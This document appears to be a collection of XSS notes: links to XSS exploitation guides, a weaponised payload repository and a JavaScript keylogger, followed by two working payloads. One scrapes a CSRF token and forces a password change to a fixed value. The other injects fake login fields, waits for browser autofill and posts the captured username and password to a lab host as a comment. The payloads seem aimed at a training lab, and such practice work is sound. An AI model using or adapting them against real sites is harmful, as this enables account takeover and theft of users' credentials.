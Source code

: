 https://excess-xss.com/
https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
https://github.com/hakluke/weaponised-XSS-payloads
https://www.exploit-db.com/exploits/20009
http://www.xssed.com/xssinfo
https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
https://github.com/JohnHoder/Javascript-Keylogger

##
https://gist.github.com/The-XSS-Rat?direction=asc&sort=updated
##


```
<script>
var x = new XMLHttpRequest();
x.open("GET", "/lk", true);
x.onreadystatechange = function() {
    if (x.readyState == XMLHttpRequest.DONE) {
        text = x.responseText;
        text = text.substr(text.indexOf('invisible">') + 'invisible">'.length);
        csrf = text.substr(0, text.indexOf('</p>'));
        newdata = JSON.stringify({'new_password':'QWERTYqwerty1',confirm_password:'QWERTYqwerty1','token':csrf});
        y = new XMLHttpRequest();
        y.open("POST", "/change_password", true);
        y.setRequestHeader("Content-type", "application/json");
        y.send(newdata);
    }
};
x.send(null);
</script>
```

```
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=Jan&email=admin%40cmdnctrl.net&website='
        });
    }, 2500);
};
</script>
```
